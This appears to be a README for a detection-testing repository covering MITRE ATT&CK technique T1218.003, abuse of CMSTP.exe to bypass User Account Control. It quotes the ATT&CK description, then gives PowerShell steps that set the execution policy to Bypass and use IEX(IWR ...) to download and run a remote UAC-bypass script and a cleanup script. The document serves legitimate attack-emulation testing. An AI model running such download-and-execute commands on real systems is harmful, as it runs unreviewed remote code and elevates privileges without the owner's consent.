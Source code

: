 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
Adversaries may abuse CMSTP to proxy execution of malicious code or to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002).

The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

CMSTP.exe can be abused to and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)

## Tests

- CMSTP Executing UAC Bypass

## How To Run
Open PowerShell.exe as an administrative user, but **do not** "Run as Administrator". Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Test.ps1")
```

## How To Cleanup
Run the following command when you're finished testing and want to clean up:

```PowerShell
IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Cleanup.ps1")
```